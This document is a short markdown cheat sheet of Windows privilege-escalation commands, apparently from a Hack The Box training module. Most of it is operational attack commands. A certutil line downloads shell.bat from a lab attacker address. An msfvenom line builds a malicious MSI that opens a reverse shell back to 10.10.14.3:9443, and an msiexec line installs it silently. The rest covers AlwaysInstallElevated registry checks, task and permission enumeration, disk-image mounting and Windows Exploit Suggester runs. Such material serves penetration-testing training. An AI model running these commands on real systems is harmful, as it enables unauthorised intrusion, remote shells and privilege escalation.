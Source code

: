 |**Command**|**Description**|
|---|---|
|`certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`|Transfer file with certutil|
|`certutil -encode file1 encodedfile`|Encode file with certutil|
|`certutil -decode encodedfile file2`|Decode file with certutil|
|`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`|Query for always install elevated registry key (1)|
|`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`|Query for always install elevated registry key (2)|
|`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`|Generate a malicious MSI package|
|`msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`|Executing an MSI package from command line|
|`schtasks /query /fo LIST /v`|Enumerate scheduled tasks|
|`Get-ScheduledTask \| select TaskName,State`|Enumerate scheduled tasks with PowerShell|
|`.\accesschk64.exe /accepteula -s -d C:\Scripts\`|Check permissions on a directory|
|`Get-LocalUser`|Check local user description field|
|`Get-WmiObject -Class Win32_OperatingSystem \| select Description`|Enumerate computer description field|
|`guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`|Mount VMDK on Linux|
|`guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`|Mount VHD/VHDX on Linux|
|`sudo python2.7 windows-exploit-suggester.py --update`|Update Windows Exploit Suggester database|
|`python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt`|Running Windows Exploit Suggester|